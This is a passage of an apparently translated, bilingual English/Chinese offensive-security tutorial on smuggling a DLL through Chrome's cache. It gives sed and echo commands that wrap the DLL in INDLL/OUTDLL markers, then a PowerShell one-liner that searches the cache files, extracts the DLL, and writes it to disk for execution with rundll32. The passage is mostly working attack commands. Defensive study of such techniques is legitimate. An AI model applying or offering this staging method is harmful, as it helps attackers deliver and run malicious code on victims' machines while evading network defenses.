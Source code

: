 Then we preprend a string that is going to tell us where the DLL starts:  
然后我们准备一个字符串，它将告诉我们 DLL 从哪里开始：

```bash
sed -i "1s/^/INDLL/" calc.dll
```

And append a string to tell us where it ends:  
并附加一个字符串来告诉我们它的结束位置：

```bash
echo -n "OUTDLL" >> calc.dll
```

At this point we know that our DLL is located between the INDLL and OUTDLL tags in one of Chrome’s cache database , all we need to do is to run some PowerShell code that will be able to analyze the Chrome’s databases and extract the DLL from them. This can be done via the following PowerShell oneliner:  
此时我们知道我们的DLL位于Chrome缓存数据库之一的INDLL和OUTDLL标签之间，我们需要做的就是运行一些PowerShell代码，这些代码将能够分析Chrome的数据库并从中提取DLL。这可以通过以下 PowerShell oneliner 完成：

```PowerShell
$d="$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cache\Cache_Data\";gci $d|%{if([regex]::Matches([System.Text.Encoding]::Default.GetString([System.IO.File]::ReadAllBytes($_.FullName)),"(?<=INDLL)(.*?)(?=OUTDLL)",[System.Text.RegularExpressions.RegexOptions]::Singleline).Count-ne0){[System.IO.File]::WriteAllBytes("$d\hello.dll",[System.Text.Encoding]::Default.GetBytes($matches[0].Value))}}
```

And effectively, our DLL is found and extracted:  
实际上，我们的 DLL 被找到并提取：

![](assets/1701827279-a67575bf7c795484ffc837a6381b3e9a.png)

Then we can use rundll32 to execute it:  
然后我们可以使用 rundll32 来执行它：
